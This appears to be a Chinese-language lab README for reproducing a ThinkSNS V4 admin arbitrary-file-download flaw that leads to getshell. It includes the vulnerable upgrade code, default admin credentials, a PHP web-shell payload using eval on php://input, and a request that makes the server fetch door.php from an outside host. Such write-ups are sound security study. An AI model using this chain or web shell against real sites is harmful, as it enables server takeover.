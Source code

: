 ## 环境编译

```
docker-compose build
docker-compose up -d
```
## 漏洞介绍

ThinkSNS_V4 后台任意文件下载导致Getshell

默认后台地址：http://127.0.0.1/index.php?app=admin&mod=Public&act=login
默认用户密码：管理员帐号: admin@admin.com 密码:123456



存在漏洞代码\ts4\apps\admin\Lib\Action\UpgradeAction.class.php中的一个函数中。
`
public function step1()
{
    $downUrl = $_GET['upurl'];
    $downUrl = urldecode($downUrl);
    $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);

    // # 备份老配置文件
    $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
    file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);

    // # 下载增量包
    is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
    file_put_contents($path, file_get_contents($downUrl));
    file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');

    // 验证hash判断包是否合法。
    $filename = dirname($path).'/upgrade.json';
    $data = file_get_contents($filename);
    $data = json_decode($data, false);
    if (md5_file($path) != $data->md5) {
        $this->showError('更新包校验失败，请重新执行升级.');
    }
`
函数

file_put_contents — 将一个字符串写入文件
file_get_contents — 将整个文件读入一个字符串
在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包， 导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。

在一台web服务器的根目录下写入

`
<?php
echo "<?php ";
echo "eval(file_get_contents('php://input'));";
echo " ?>";
?>
`
先登录后台

然后访问
**http://127.0.0.1:8001/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://10.0.0.211:81/door.php**

![](luffy1.png)

然后会在data\upgrade出现下载的door.php文件。

![](luffy2.png)

最后可以代码执行了

![](luffy3.png)




[漏洞介绍](http://4o4notfound.org/index.php/archives/40/)

